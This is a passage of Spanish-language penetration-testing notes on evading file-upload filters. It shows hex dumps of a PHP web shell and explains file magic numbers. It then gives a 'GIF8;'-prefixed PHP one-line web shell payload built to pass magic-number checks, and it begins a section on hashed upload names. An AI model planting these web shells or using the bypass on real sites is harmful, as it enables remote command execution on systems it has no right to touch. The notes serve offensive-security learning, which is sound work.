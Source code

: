 ```shell
# Para ver el tipo de archivo 
file {file_name}
# Para ver el archivo en decimal 
xxd image.php
# OutPut
# 00000000: 3c3f 7068 7020 0a09 7379 7374 656d 2824  <?php ..system($
# 00000010: 5f47 4554 5b27 636d 6427 5d29 3b20 0a3f  _GET['cmd']); .?
# 00000020: 3e0a 

# Otro ejemplo: 
zip {new_file.zip} {file_to_zip}
# Ver magic numbers
xxd {file.zip}
```

### De esta manera, haciendo uso de una de las [[⚒ Herramientas ⚒]], la cual es **xxd**, podemos ver el archivo en cuestion en hexadecimal y a raiz de los primeros 4 pares de números, por ejemplo en el caso de php **3c 3f 70 68** o en el caso de un comprimido **50 4b 03 04**, podríamos buscar estos en diversas [páginas](https://en.wikipedia.org/wiki/List_of_file_signatures).

### En base a esto, podemos entender, que muchas veces las webs utilizan múltiples sanitizaciones, entre ellas la lectura de los magic numbers, por lo que podriamos intentar vurlar las mismas engañando estos magic numbers.

```php
GIF8;

<?=`$_GET[0]`?>
```

### De esta manera, estariamos engañando a los magic numbers, ya que los archvios **.gif** suelen tener la cadena **GIF8;** lo que da siempre un magic number de GIF para la subida de archivos. (Esto se puede aplicar con diversas extenciones, como html, etc.)

- # Caso HASHEO: 

### En este caso, independientemente de si existen o no sanitizaciones, los desarrolladores aplican hasheos a los nombres de los recursos que subimos para evitar que, en un repositorio dado, independientemente de si contamos con **directoy listing** o no, no podamos acceder al contenido subido, por ejemplo, si en la ruta **/uploads** sabemos que se almacenan nuestros archivos subidos, pero no tenemos capacidad de directory listing, por lo que no podemos ver lo que subimos, tal vez, a la hora de subir nuestro archivo se este aplicando un hasheo con **md5** u otros, para intentar evitar un acceso al recurso subido. 
